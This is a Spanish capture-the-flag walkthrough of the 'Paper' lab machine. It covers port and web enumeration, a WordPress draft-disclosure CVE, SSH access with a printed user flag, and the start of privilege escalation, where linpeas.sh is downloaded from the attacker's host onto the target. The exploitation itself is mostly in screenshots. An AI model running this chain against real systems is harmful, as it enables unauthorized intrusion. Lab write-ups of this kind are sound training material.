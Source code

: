 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Paper

`Paper` es una máquina Linux sencilla que cuenta con un servidor Apache en los puertos 80 y 443, que sirven las versiones HTTP y HTTPS de un sitio web respectivamente. El sitio web en el puerto 80 devuelve una página web de servidor predeterminada, pero el encabezado de respuesta HTTP revela un dominio oculto. Este dominio oculto ejecuta un blog de WordPress, cuya versión es vulnerable a [CVE-2019-17671](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2). Esta vulnerabilidad nos permite ver la información confidencial almacenada en los borradores de las publicaciones del blog, que revelan otra URL que conduce a un sistema de chat para empleados. Este sistema de chat se basa en Rocketchat. Al leer los chats, descubrimos que hay un bot en ejecución al que se puede consultar información específica. Podemos explotar la funcionalidad del bot para obtener la contraseña de un usuario en el sistema. Una enumeración adicional de hosts revela que la versión sudo es vulnerable a [CVE-2021-3560](https://www.exploit-db.com/exploits/50011) y puede explotarse para elevar privilegios a root.

<figure><img src="../../.gitbook/assets/Paper.png" alt="" width="563"><figcaption></figcaption></figure>

***

## Reconnaissance



```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.143 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 19:33 CET
Initiating SYN Stealth Scan at 19:33
Scanning 10.10.11.143 [65535 ports]
Discovered open port 80/tcp on 10.10.11.143
Discovered open port 443/tcp on 10.10.11.143
Discovered open port 22/tcp on 10.10.11.143
Completed SYN Stealth Scan at 19:33, 19.13s elapsed (65535 total ports)
Nmap scan report for 10.10.11.143
Host is up, received user-set (0.15s latency).
Scanned at 2025-02-17 19:33:26 CET for 19s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.25 seconds
           Raw packets sent: 66074 (2.907MB) | Rcvd: 66096 (2.645MB)
```



```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.143
	[*] Open ports: 22,80,443

[*] Ports copied to clipboard
```



```bash
❯ nmap -sCV -p22,80,443 10.10.11.143 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 19:38 CET
Nmap scan report for office.paper (10.10.11.143)
Host is up (0.088s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: WordPress 5.2.3
|_http-title: Blunder Tiffin Inc. &#8211; The best paper company in the elec...
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: HTTP Server Test Page powered by CentOS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   107.25 ms 10.10.16.1
2   40.77 ms  office.paper (10.10.11.143)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.38 seconds
```



```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>



```bash
❯ whatweb http://10.10.11.143/
http://10.10.11.143/ [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
```



<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>



```bash
❯ curl -I http://10.10.11.143
HTTP/1.1 403 Forbidden
Date: Mon, 17 Feb 2025 18:42:04 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
```



```bash
❯ cat /etc/hosts | grep office.paper
10.10.11.143 office.paper 
```



```bash
❯ whatweb http://office.paper
http://office.paper [200 OK] Apache[2.4.37][mod_fcgid/2.3.9], Bootstrap[1,5.2.3], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], JQuery, MetaGenerator[WordPress 5.2.3], OpenSSL[1.1.1k], PHP[7.2.24], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Blunder Tiffin Inc. &#8211; The best paper company in the electric-city Scranton!], UncommonHeaders[link,x-backend-server], WordPress[5.2.3], X-Backend[office.paper], X-Powered-By[PHP/7.2.24]
```



<figure><img src="../../.gitbook/assets/5112_vmware_2WA2OHSKZL.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>



```bash
❯ feroxbuster -u http://office.paper/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                     
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://office.paper/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       23w      196c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      239c http://office.paper/wp-content => http://office.paper/wp-content/
301      GET        7l       20w      237c http://office.paper/wp-admin => http://office.paper/wp-admin/
301      GET        7l       20w      240c http://office.paper/wp-includes => http://office.paper/wp-includes/
301      GET        7l       20w      235c http://office.paper/manual => http://office.paper/manual/
200      GET      132l      508w     4349c http://office.paper/wp-content/themes/techup/assets/js/navigation.js
200      GET        2l      281w    10056c http://office.paper/wp-includes/js/jquery/jquery-migrate.min.js
301      GET        7l       20w      247c http://office.paper/wp-content/plugins => http://office.paper/wp-content/plugins/
200      GET       50l      220w    18041c http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png
200      GET       22l      155w    16878c http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc.png
200      GET      616l     1171w    14122c http://office.paper/wp-content/themes/techup/assets/js/custom.js
200      GET      154l      262w     2912c http://office.paper/wp-content/themes/techup/assets/css/skin-2.css
```



```bash
❯ wfuzz --hh=199691 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.office.paper" http://office.paper 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://office.paper/
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                             
=====================================================================

000000329:   200        507 L    13015 W    223163 Ch   "chat"  
```



```bash
❯ cat /etc/hosts | grep office.paper
10.10.11.143 office.paper chat.office.paper
```



<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>



```bash
❯ wpscan --no-banner --url http://office.paper/ --enumerate vt,vp,u --random-user-agent --api-token "API_TOKEN" > result.txt

❯ cat result.txt
```



<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.incibe.es/index.php/incibe-cert/alerta-temprana/vulnerabilidades/cve-2019-17671" %}

{% hint style="danger" %}
En WordPress anterior a 5.2.4, es posible la visualización no autenticada de cierto contenido porque la propiedad de consulta estática es manejada inapropiadamente.
{% endhint %}



{% embed url="https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2/" %}

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (17).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (21).png" alt=""><figcaption></figcaption></figure>



```bash
❯ ssh dwight@office.paper
dwight@office.paper's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ cat user.txt 
7f6d8b3de479b93d9327ee27dc63df29
```

## Privilege Escalation



```bash
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
[dwight@paper ~]$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/fusermount3
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/userhelper
/usr/sbin/mount.nfs
```



```bash
❯ ls -l linpeas.sh
.rw-r--r-- kali kali 806 KB Sun Feb 16 03:40:22 2025  linpeas.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```





```bash
[dwight@paper tmp]$ wget 10.10.16.3/linpeas.sh; chmod +x linpeas.sh
--2025-02-17 14:12:16--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                                100%[==================================================================================================================================>] 805.61K   795KB/s    in 1.0s    

2025-02-17 14:12:17 (795 KB/s) - 'linpeas.sh' saved [824942/824942]
```



<figure><img src="../../.gitbook/assets/5134_vmware_QRAl577PFG.png" alt=""><figcaption></figcaption></figure>



```bash
[dwight@paper tmp]$ which sudo
/usr/bin/sudo
[dwight@paper tmp]$ /usr/bin/sudo --version
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29
```

























































